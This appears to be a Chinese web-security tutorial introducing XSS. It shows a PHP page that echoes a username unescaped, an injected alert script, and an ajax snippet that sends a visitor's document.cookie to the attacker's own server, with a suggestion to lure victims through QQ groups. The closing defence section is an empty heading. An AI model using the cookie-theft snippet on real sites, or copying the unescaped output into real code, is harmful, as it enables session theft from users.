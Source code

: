 
## 概念

XSS是最常见的一种web攻击方式，它指的是恶意用户把代码注入到其他用户要访问的网站中。

站在前端的角度，可以理解为将js代码注入。

```php
<?php
    $username="鹏仔";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <div>
            用户名：<?php echo $username;?>
        </div>
    </body>
</html>
```

如果你的用户名，起名称的时候，带上script标签呢？我们知道，浏览器遇到html中的script标签的时候，会解析并执行标签中的js脚本代码，那么如果你的用户名称里面含有script标签的话，就可以执行其中的代码了。代码如下：

```php
<?php
    $username="<script>alert('侯医生');</script>";
?>
```

如果你将自己的用户名设定为这种执行脚本的方式，再让别人去访问你的连接的话，就可以达到在他人web环境中，执行自己脚本的效果了。我们还可以使用ajax，将其他用户在当前域名下的cookie获取并发送到自己的服务器上。这样就可以获取他人信息了。比如，刚刚咱们使用的不是alert而是，如下的代码：

```javascript
$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'盗取的用户cookie': document.cookie}
});
```

再在各个QQ群中，散播自己的空间，引诱别人来访问。就可以拿到用户在这个域名下的cookie或者其他隐私了。

## 防范













